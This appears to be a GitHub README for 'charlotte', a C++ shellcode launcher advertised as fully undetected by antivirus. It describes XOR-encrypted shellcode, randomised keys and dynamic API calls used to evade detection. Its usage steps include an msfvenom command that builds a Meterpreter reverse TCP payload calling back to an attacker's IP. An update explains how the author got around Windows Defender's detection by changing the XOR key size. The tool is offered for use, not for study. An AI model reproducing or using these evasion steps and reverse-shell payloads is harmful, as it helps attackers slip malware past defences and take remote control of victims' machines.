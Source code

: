 # charlotte
 c++ fully undetected shellcode launcher ;)

 releasing this to celebrate the birth of my newborn 

## description
1. c++ shellcode launcher, fully undetected 0/26 as of 13th May 2021.
2. dynamic invoking of win32 api functions
3. XOR encryption of shellcode and function names
4. randomised XOR keys and variables per run
5. on Kali Linux, simply 'apt-get install mingw-w64*' and thats it!


## antiscan.me

![alt_text](0-detection-charlotte.png "Pwn!")

## usage

git clone the repository, generate your shellcode file with the naming beacon.bin, and run charlotte.py

example:
1. git clone https://github.com/9emin1/charlotte.git && apt-get install mingw-w64*
2. cd charlotte
3. msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$YOUR_IP LPORT=$YOUR_PORT -f raw > beacon.bin
4. python charlotte.py
5. profit

### tested with msfvenom -p (shown in the .gif POC below) and also cobalt strike raw format payload

![alt_text](demo-poc.gif "Pwn!")

## update v1.1 

17/05/21:

apparently Microsoft Windows Defender was able to detect the .DLL binary,

and how did they flag it? by looking for several XOR keys of 16 byte size 

changing it to 9 shown in the POC .gif below shows it is now undetected again

cheers!

![alt_text](demo-poc2.gif "Pwn!")
